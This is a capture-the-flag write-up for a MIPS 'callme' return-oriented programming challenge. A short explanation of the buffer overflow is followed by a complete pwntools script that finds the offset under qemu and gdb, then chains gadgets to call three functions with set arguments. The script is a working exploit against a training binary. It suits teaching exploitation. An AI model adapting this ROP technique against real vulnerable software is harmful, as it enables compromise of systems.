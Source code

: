 # Callme

## Target
call `callme_one`, `callme_two` and `callme_three` in this order with the following arguments: `0xdeaedbeef`, `0xcafebabe` and `0xd00df00d`.

## The vuln
A buffer overflow allows ROPchain creation and execution. By using `ropper` or similar tools is possible to find gadgets which allows to correctly set the arguments and call the functions `callme_one`, `callme_two` and `callme_three` in sequence.

## The script
```python
from pwn import *
import subprocess
from threading import Thread

#
# Context
#

e = context.binary = ELF('callme_mipsel')
context.arch = 'mips'

#
# Offset
#

PORT = 1234
LIBDIR = '/usr/mipsel'

def qemu_thread():
    with subprocess.Popen(['/usr/bin/qemu-mipsel', '-L', LIBDIR, '-g', str(PORT), e.path], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE) as qemu:
        qemu.stdin.write(cyclic(0x200))
        sleep(1)
        qemu.stdin.write(b'\n')

Thread(target=qemu_thread).start()

commands = f"""set arch mips:isa32
symbol-file callme_mipsel
target remote :{PORT}
b *pwnme+204
c
i r ra
q
"""
with open("command_file", "w") as cf:
    cf.write(commands)

with subprocess.Popen(['/usr/bin/gdb-multiarch', '--command=command_file', '--batch'], stdout=subprocess.PIPE, stderr=subprocess.PIPE) as gdb:
    gdb.wait()
    _, _, ra = gdb.stdout.read().split(b'\n')[-2].decode().partition(": ")

info(f'RA: {ra}')
offset = cyclic_find(bytes.fromhex(ra[2:]))
info(f'Offset: {offset}')

#
# ROP
#

# Alternative: use "ropper"
CALLME_ONE   = p32(e.plt["callme_one"])
CALLME_TWO   = p32(e.plt["callme_two"])
CALLME_THREE = p32(e.plt["callme_three"])
EXIT         = p32(e.plt["exit"])

# Calling convention (a0, a1, a2)
BIGPOP = p32(next(e.search(asm('lw $a0, 0x10($sp); lw $a1, 0xc($sp); lw $a2, 8($sp); lw $t9, 4($sp); jalr $t9; nop;'))))

SET_PARAMETERS  = b''
SET_PARAMETERS += p32(0xd00df00d)
SET_PARAMETERS += p32(0xcafebabe)
SET_PARAMETERS += p32(0xdeadbeef)

#
# Exploit
#

io = process(e.path)

payload =  b''
payload += b'A' * offset
payload += b'Por' # Di "Porco dio se lo stack non si allinea!"

payload += BIGPOP
payload += b'A' * 4 # Junk (delay branch?)
payload += CALLME_ONE
payload += SET_PARAMETERS

#MIPS: MIcroprocessorPorcoilSignore

payload += BIGPOP
payload += b'A' * 4
payload += CALLME_TWO
payload += SET_PARAMETERS

payload += BIGPOP
payload += b'A' * 4
payload += CALLME_THREE
payload += SET_PARAMETERS

payload += EXIT
payload += p32(0)

with open('payload', 'wb') as fout:
    fout.write(payload)

io.sendlineafter(b'> ', payload)

info(io.recvuntil(b'}').decode())
io.close()
```